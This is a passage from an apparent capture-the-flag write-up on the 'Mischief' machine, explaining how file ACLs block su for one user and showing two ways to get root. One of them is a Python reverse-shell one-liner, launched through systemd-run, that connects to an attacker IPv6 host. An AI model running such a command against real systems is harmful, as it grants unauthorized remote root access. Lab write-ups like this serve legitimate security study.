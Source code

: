 ```
# auth       required   pam_wheel.so

# Uncomment this if you want wheel members to be able to
# su without a password.
# auth       sufficient pam_wheel.so trust

# Uncomment this if you want members of a specific group to not
# be allowed to use su at all.
# auth       required   pam_wheel.so deny group=nosu
...[snip]...

```

It turns out that it is an example of extended permissions known as file access control lists (facl). I can access them via the `getfacl` command:

```

loki@Mischief:~$ getfacl /bin/su
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x

```

As the output shows, loki is specifically not allowed to execute `su`.

### Option #1 - Use www-data Shell

I can go back to my shell as www-data from the RCE, and run su there:

```

www-data@Mischief:/var/www/html$ su
Password: 
root@Mischief:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)

```

### Option #2 - systemd-run

I can’t su as loki, but I can use `systemd-run`. This command will not give me an interactive return, but I can launch another reverse shell as root:

```

loki@Mischief:~$ systemd-run python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100d",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
Authentication is required to manage system services or other units.
Authenticating as: root
Password: 
==== AUTHENTICATION COMPLETE ===
Running as unit: run-u20.service

```
